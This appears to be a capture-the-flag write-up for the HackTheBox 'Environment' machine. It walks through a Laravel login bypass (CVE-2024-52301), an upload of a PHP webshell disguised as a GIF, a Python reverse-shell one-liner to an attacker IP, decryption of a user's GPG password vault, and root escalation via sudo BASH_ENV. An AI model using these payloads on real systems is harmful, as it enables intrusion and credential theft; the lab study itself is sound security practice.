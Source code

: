 # Environment - HTB
Difficulty: Medium

## Enum
Port 22,80
Port 80 running with debug mode on so error dms are seen

```
                        [Status: 200, Size: 4602, Words: 965, Lines: 88, Duration: 280ms]
login                   [Status: 200, Size: 2391, Words: 532, Lines: 55, Duration: 236ms]
storage                 [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 38ms]
upload                  [Status: 405, Size: 244869, Words: 46159, Lines: 2576, Duration: 505ms]
up                      [Status: 200, Size: 2126, Words: 745, Lines: 51, Duration: 138ms]
logout                  [Status: 302, Size: 358, Words: 60, Lines: 12, Duration: 550ms]
vendor                  [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 41ms]
build                   [Status: 301, Size: 169, Words: 5, Lines: 8, Duration: 39ms]
mailing                 [Status: 405, Size: 244871, Words: 46159, Lines: 2576, Duration: 1399ms]
```


So in /login, when you fuck around with the remember param, it erros out and reveals the src. So use that to find this [exploit](https://github.com/Nyamort/CVE-2024-52301) for laravel.

So just modify this in the request

```
POST /login?--env=preprod HTTP/1.1

```

This will bypass login.

Now to upload a shell I sent a request to the upload endpoint by creating a file `shell.php.` and setting the content-type to image/jpg. I also edited the shell.php to this
```php
GIF89a
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
            <input type="TEXT" name="cmd" autofocus id="cmd" size="80">
            <input type="SUBMIT" value="Execute">
        </form>
    <pre>
        <?php
            if(isset($_GET['cmd']))
                {
                    system($_GET['cmd'] . ' 2>&1');
                }
        ?>
    </pre>
    </body>
</html>
```

I got this webshell from [here](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985).
Now the GIF89a must be the first couple of bytes so that it bypasses the magic number check. Send this with filename as `shell.php.` and content type as image/jpg. U shud be able to get a shell.

I used this payload to gain a full reverse shell:
```bash
export RHOST="10.10.14.55";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

Change the IP obviously.

Just navigate to the home user and get user.txt


Now to gain a shell on user do this
```
cp -r /home/hish/.gnupg /tmp/mygnupg

chmod -R 700 /tmp/mygnupg

gpg --homedir /tmp/mygnupg --list-secret-keys

gpg --homedir /tmp/mygnupg --output /tmp/message.txt --decrypt /home/hish/backup/keyvault.gpg
```

This will output these in /tmp/message.txt
```
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

On running `sudo -l` you get this:
```bash
Matching Defaults entries for root on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User root may run the following commands on environment:
    (ALL : ALL) ALL
```

So you can change the env variables, here ENV and BASH_ENV

So let's first create a file as payload called privesc.sh

```bash
#!/bin/bash
bash -p
```

Now from here, do `chmod +x privesc.sh`

Now do this:
```bash
sudo BASH_ENV=./privesc.sh /usr/bin/systeminfo
```

This gives a root shell
